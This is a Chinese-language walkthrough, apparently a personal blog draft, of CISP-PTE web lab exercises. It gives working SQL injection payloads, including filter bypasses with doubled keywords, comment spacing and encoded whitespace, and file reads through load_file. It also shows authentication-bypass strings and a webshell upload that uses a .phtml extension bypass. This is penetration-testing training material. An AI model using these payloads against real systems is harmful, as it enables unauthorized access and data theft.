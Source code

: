 ```yaml
---
layout: post
title: CISP-PTE Web靶场综合
subtitle: CISP-PTE Web靶场综合
date: 2025-08-13 15:42
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
number headings: first-level 2, max 4, 1.1., auto
published: false
---
```

## 1. SQL 注入（一）

![image.png](https://img.ghostliner.top/d3eKYq.png)

![image.png](https://img.ghostliner.top/wQkD7J.png)

发现空格过滤，使用 `/**/` 

利用注释 `-- `﻿,`#`﻿无法绕过，尝试补全

使用 `id=1')and('1'='-1`﻿, ﻿`id=1')and('1'='1`﻿成功

![image.png](https://img.ghostliner.top/kOm2DU.png)

使用 `id=1')irder/**/by/**/1%23` 成功

![image.png](https://img.ghostliner.top/mY8RwS.png)

使用 order by 确认有 4 列

![image.png](https://img.ghostliner.top/H5Y4Ra.png)

确认显示位置

```sql
'
id=1')union/**/select/**/1,2,3,4,%23
```

发现 `union` 被过滤

![image.png](https://img.ghostliner.top/tKuqXi.png)

双写绕过

```sql
'
id=-1')uunionnion/**/select/**/1,2,3,4%23
```

![image.png](https://img.ghostliner.top/s3QSHq.png)

load_file 读取文件

```sql
'
id=-1')uunionnion/**/select/**/1,2,3,load_file('/var/www/html/key')%23
```

![image.png](https://img.ghostliner.top/ldixXq.png)

测试其他绕过方法

```sql
'
id=-1')%0buunionnion%0a%0c%0dselect%091,2,3,load_file('/var/www/html/key')%23
```

经测试，`%09` `%0a` `%0b` `%0c` `%0d`﻿都可行。

## 2. SQL 注入（二）

![image.png](https://img.ghostliner.top/keH0my.png)

```sql
'
id=1%') and 1=1--+
```

发现 and 被过滤

![image.png](https://img.ghostliner.top/RRBDAx.png)

使用双写绕过成功

```sql
'
id=1%') aandnd 1=-1--+
'
id=1%') aandnd 1=1--+
```

确定列数为 7 列

```sql
'
id=-1%') uunionnion select 1,2,3,4,5,6,7--+
```

确定显示位置

![image.png](https://img.ghostliner.top/tQPT9H.png)

获取 key

```sql
'
id=-1%') uunionnion select 1,2,3,load_file('/tmp/360/key'),5,6,7--+
```

![image.png](https://img.ghostliner.top/M4yka9.png)

## 3. SQL 注入（三）

![image.png](https://img.ghostliner.top/vqEBI6.png)

尝试弱密码登录失败

![image.png](https://img.ghostliner.top/ahPhW6.png)

尝试万能密码登录

```sql
password=admin' or '1'='1'--+&username=admin' or '1='1'#
```

发现 `or` 、`--+`、`#` 被过滤

![image.png](https://img.ghostliner.top/wiet7N.png)
使用双写失败，使用大写

```sql
password=12' OR '1'='1'/**&username=12' OR'1'='1'/**
```

![image.png](https://img.ghostliner.top/PxWDMA.png)

取消注释，进行补全

```sql
password=12' OR '1'='1&username=12' OR'1'='1
```

![image.png](https://img.ghostliner.top/y2nDNd.png)

## 4. SQL 注入（四）

![image.png](https://img.ghostliner.top/xK0Mzy.png)

### 4.1. 万能密码

注册用户 `admin`，提示已存在，使用万能密码（`admin'#`）登录

![image.png](https://img.ghostliner.top/rDQziE.png)

单引号登陆失败，使用双引号

![image.png](https://img.ghostliner.top/yjNjAJ.png)

双引号登录成功

![image.png](https://img.ghostliner.top/5FRCPa.png)

### 4.2. sqlmap 爆破


## 5. 文件上传（一）

![image.png](https://img.ghostliner.top/gyMsX8.png)

上传 shell.jpg，bp 拦截修改后缀

![image.png](https://img.ghostliner.top/3Qduu3.png)

上传失败，更改后缀为 `phtml`

![image.png](https://img.ghostliner.top/JBYZHm.png)

上传成功

![image.png](https://img.ghostliner.top/MMuJRO.png)

蚁剑连接成功

![image.png](https://img.ghostliner.top/3lpSuv.png)


## 6. 文件上传（二）

## 7. 文件上传（三）

## 8. 文件包含（一）

## 9. 文件包含（二）

## 10. 文件包含（三）

## 11. 命令执行（一）

## 12. 命令执行（二）

## 13. 命令执行（三）

## 14. 日志审计（一）

## 15. 日志审计（二）

## 16. 暴力破解

## 17. XSS（一）

## 18. XSS（二）

## 19. 二阶注入

- [ ] pteweb 靶场🛫 2025-08-18 